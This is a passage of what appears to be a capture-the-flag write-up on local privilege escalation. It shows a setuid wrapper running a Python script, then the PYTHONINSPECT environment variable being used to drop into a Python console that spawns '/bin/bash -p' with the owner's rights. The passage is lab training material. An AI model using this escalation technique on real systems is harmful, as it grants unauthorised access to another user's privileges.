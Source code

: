 ```bash
ImportError: No module named requests

$ strings /usr/local/bin/ensibsproject | grep py                       
/home/odie/project.py

rev-shell $ cat /home/odie/project.py
#!/usr/bin/python

print """
 _____           _ _                                  _    
| ____|_ __  ___(_) |__  ___   ___  ___  ___ _ __ ___| |_  
|  _| | '_ \/ __| | '_ \/ __| / __|/ _ \/ __| '__/ _ \ __| 
| |___| | | \__ \ | |_) \__ \ \__ \  __/ (__| | |  __/ |_  
|_____|_| |_|___/_|_.__/|___/_|___/\___|\___|_|  \___|\__| 
 _ __  _ __ ___ (_) ___  ___| |_                           
| '_ \| '__/ _ \| |/ _ \/ __| __|                          
| |_) | | | (_) | |  __/ (__| |_                           
| .__/|_|  \___// |\___|\___|\__|                          
|_|           |__/                                         
"""

import requests

try:
    requests.get('http://www-ensibs.univ-ubs.fr/fr/formations/formations/diplome-d-ingenieur-DI/sciences-technologies-sante-STS/diplome-d-ingenieur-cyberdefense-program-icyb00-213.html')
    flag = 1
except:
    flag = 0

if flag:
    print "ENSIBS Cyberdefense website is up!"
```

Odie really loves his school, he even made a script for checking the disponibility of the website. Beautiful.

However, it's a python script and the binary seems to be used as a wrapper to execute this script. Fortunately, it got the sticky bit, which means that if we can execute commands through this binary, then we will have rights of __odie__ user on the system.

Environment variable `PYTHONINSPECT` will force the inspection mode. It means a python console will appear at this end of python script execution. With the binary's rights ;)

```bash
rev-shell $ PYTHONINSPECT=1 /usr/local/bin/ensibsproject                

 _____           _ _                                  _    
| ____|_ __  ___(_) |__  ___   ___  ___  ___ _ __ ___| |_  
|  _| | '_ \/ __| | '_ \/ __| / __|/ _ \/ __| '__/ _ \ __| 
| |___| | | \__ \ | |_) \__ \ \__ \  __/ (__| | |  __/ |_  
|_____|_| |_|___/_|_.__/|___/_|___/\___|\___|_|  \___|\__| 
 _ __  _ __ ___ (_) ___  ___| |_                           
| '_ \| '__/ _ \| |/ _ \/ __| __|                          
| |_) | | | (_) | |  __/ (__| |_                           
| .__/|_|  \___// |\___|\___|\__|                          
|_|           |__/                                         

Traceback (most recent call last):
  File "/home/odie/project.py", line 16, in <module>
    import requests
ImportError: No module named requests
>>> import os; os.system('/bin/bash -p')
```
